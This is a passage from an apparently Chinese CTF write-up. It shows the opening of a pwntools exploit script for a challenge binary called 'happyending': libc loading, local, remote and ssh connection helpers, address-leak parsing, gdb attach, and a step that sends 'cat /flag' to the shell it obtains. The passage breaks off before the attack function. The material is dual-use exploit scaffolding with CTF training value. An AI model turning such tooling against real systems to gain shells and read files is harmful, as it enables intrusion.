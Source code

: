 接下来的构造与上一题基本完全相同，本题不再赘述。

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import traceback
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

happyending=ELF('./happyending', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./happyending")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./happyending")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string,drop=True),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def Multi_Attack():
```